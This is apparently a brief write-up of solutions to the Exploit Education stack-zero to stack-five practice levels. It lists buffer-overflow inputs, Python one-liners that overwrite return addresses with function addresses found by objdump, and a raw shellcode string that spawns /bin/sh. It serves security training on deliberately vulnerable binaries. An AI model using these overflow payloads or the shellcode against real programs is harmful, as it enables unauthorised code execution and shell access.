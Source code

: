 ## ZERO
run stack-zero
enter `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa` to buffer overflow the changeme
## ONE
./stack-one aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabYlI
## TWO
Run export ExploitEducation=`python -c 'print ("a" * 64 + "\x0a\x09\x0a\x0d")'`
This sets the environment variable to override changeme.
Then run stack-two
## THREE
`objdump -t stack-three` to get the symbol table. complete_level function is located at 000000000040069d. Then run the command to overflow and call the function:
echo `python -c 'print("a" * 64 + "\x9d\x06\x40\x00")'` | ./stack-three
## FOUR
`objdump -t stack-four` to get address off complete_level (000000000040061d). Then run command:
`echo `python -c 'print("a" * 88 + "\x1d\x06\x40\x00")'` | ./stack-four`
## FIVE
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68